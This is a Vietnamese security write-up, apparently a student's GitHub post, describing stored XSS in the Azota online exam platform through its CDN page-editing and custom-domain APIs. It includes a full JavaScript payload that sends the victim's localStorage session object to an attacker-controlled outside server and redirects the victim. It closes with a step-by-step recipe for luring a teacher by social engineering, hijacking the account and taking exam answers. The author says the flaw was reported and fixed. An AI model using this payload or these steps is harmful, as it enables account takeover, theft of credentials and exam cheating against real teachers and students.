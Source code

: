 # Tôi đã hack đáp án azota như nào trong kỳ thi như thế nào
-------------------------------------------
## [Đến phần khai thác luôn thì ấn vào đây](#Tóm-tắt-khai-thác)

## - Mở bài
Thật ra cũng thật tình cờ vào một ngày đẹp thức dậy vào lúc 7h đánh răng ngồi vào bàn học mở zoom thân thương lên để học tập trong mùa dịch, một thông báo bất ngờ hiện lên với dòng tin nhắn của thầy tôi là **KIỂM TRA HOÁ GIỮA KỲ** vào tuần sau trên azota, tôi thật bất ngờ nhưng cũng thật bình tĩnh....
Sau 5 tiết học bận rộn tôi mở chiếc lattop cũ kỹ của tôi lên vào web azota để lập tài khoản và thi thử. Tôi biết mình là một người học không tốt môn hoá mấy(thật ra mất gốc). Từ đó tôi suy nghĩ có cách nào mà làm cái khác mà vẫn có ăn không.

## - Thân bài 
Sau khi dạo quanh một vòng web thì tôi tìm ra một số api bị dính lỗi.
Địa chỉ bị lỗi là phần chỉnh sửa web site của azota:
![anh_chinh_sua_web](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/1sua_web.PNG)

### Các api thú vị:
#### Api - 1
`PUT /ladipage/m11_2021/d02/1787477/6181ab4aXXXXXXXXXXX`
`Host: wewiin.nyc3.digitaloceanspaces.com`
![post_chinhsua_web](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/2post_chinhsua_web.PNG?raw=true)


Đây là một api post dữ liệu web của mình lên `CND` trung gian của `digitaloceanspaces`.

Theo chúng ta thấy dữ liệu post ở đây không bị mã hoá và nó là html.

Mình đã thử chèn một đoạn thẻ `<script>alert(1)</script>` post lên .

Và thật bất ngờ ngay sau khi mình truy cập trang web của mình thì web đã bị xss.

Khoan dừng khoảng chừng là 2 giây ở đây mình đã xss trang `CDN` chứ không phải trang `azota.vn`

Mình nhẹ nhàng check lại bằng cách thay `alert(1)` =>  `alert(document.URL)`

**Và :**

![alert_url](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/alert_url.PNG?raw=true)


Thật bất ngờ khi alert hiện lên là url azota đến đây thì mình đã hiểu là web đã render dữ liệu *HTML* từ `CDN` vào thẳng trang web chứ không chèn thông qua `iframe`.
Từ đây web đã bị dính `Stored XSS`

#### Api thứ 2
`POST /api/Usersetting/SaveMyDomain HTTP/2`
`Host: azota.vn`
![post_url_render](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/3post_url_render.PNG?raw=true)


Vậy ra đây một api post `url` web của bạn lên để khi truy cập web site của bạn thì **web sẽ render html** từ trang web này @@.

Nếu vậy có nghĩa là mình chèn một [URL](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/xss.html) bị tiêm mã script thì khi web azota render html từ trang đó thì cũng bị `XSS`.



### Tóm lại web đã bị xss nhưng làm sao hack được đáp án
Ở đây nếu muốn lấy đáp án thì phải truy cập vào tài khoản của thầy giáo qua `cookie`(document.cookie) nhưng nếu cookie `httponly` hoặc được `secure` thì chắc cũng bó tay **nhưng ở đây là lúc mình nhận ra** web họ không xác thực qua cookie mà qua `localStorage` **@@ khó hiểu** nếu vậy mình chỉ cần đánh cắp `localStorage` của thầy là mình đã có thể truy cập vào ních thầy được rồi.

code xss 
```
<script>
// post data localStorage lên server của mình 
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://webcuaban.com", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhttp.send("data=".concat(localStorage.getItem("user_obj")));
//chuyển hướng đánh lừa thầy web lỗi 404
window.location=("https://azota.vn/vi/admin/baithi");
</script>
```
Giờ thì `social engineering` thôi :3 
![anh_social](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/social.PNG?raw=true)

Ngay sau đó mình đã có data đăng nhập của thầy:

![anh_data](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/data.PNG?raw=true)

:)) đến giờ thì vào thay `localStorage` của thầy và khui đáp án thi học kỳ lấy 10đ thôi.

## - Kết bài
Mình chỉ demo vui vậy thôi chứ mình đã report cho bên đơn vị liên quan để họ sửa chữa

![anh_suachua](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/fix.PNG?raw=true).


# Tóm tắt khai thác 
- 1 Tạo câu lệnh js lấy `localStorage`
    ```
    <script>
    // post data localStorage lên server của mình 
    var xhttp = new XMLHttpRequest();
    xhttp.open("POST", "https://webcuaban.com", true);
    xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhttp.send("data=".concat(localStorage.getItem("user_obj")));
    //chuyển hướng đánh lừa thầy web lỗi 404
    window.location=("https://azota.vn/vi/admin/baithi");
    </script>
    ```
    Lưu ý vào **https://webcuaban.com** là web của các bạn chèn vào để lấy thông tin post lên ở đây mình khuyến khích các bạn tạo một api get request free ở đây [https://requestbin.com/](https://requestbin.com/)
- 2 Up code lên web nào đó khuyến khích [pastebin](https://pastebin.com/) or [github](https://github.com/VHAE04) ....
  Demo [https://pastebin.com/raw/yS3NZUMr](https://pastebin.com/raw/yS3NZUMr)
- 3 Post url đã được tiêm lệnh lên **[api sau](#Api-thứ-2)**
- 4 Bảo người dùng vào đường dẫn bằng `social engineering`
- 5 Lên web lấy thông tin khi nạn nhân đã post và thay vào `localStorage` của mình
- 6 Truy cập vào tài khoản qua `localStorage` và lấy đáp án thôi :3 **chúc bạn thi thật tốt**
